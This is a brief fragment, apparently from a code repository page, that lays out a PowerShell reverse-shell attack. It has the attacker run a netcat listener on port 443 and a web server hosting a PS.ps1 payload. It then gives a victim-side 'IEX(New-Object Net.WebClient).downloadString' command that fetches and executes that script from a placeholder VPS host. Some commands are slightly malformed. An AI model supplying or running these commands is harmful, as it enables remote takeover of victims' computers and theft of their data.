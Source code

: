 The attacker needs to run this on a vps server 

rlwrap nc -nlvp 443
python3 http.server 80

With this PS.ps1 file in /var/www/html

And the victim has to execute this command in powershell 

powershell IEX(New-Object Net.WebClient).downloadString("http://ipvps/PS.ps1%22)
